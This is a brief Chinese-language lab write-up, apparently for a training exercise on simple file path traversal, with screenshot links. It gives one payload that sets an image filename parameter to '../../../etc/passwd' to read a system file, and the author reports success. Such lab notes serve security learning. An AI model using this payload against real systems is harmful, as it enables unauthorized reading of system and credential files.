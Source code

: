 # Lab: File path traversal, simple case

---

进入靶场

![image-20241217152046092](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20241217152046092.png)





抓包：

![image-20241217152003421](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20241217152003421.png)

我们尝试修改目录地址

```python
/image?filename=../../../etc/passwd
```

成功访问！！！

![image-20241217152129594](C:/Users/lenovo/AppData/Roaming/Typora/typora-user-images/image-20241217152129594.png)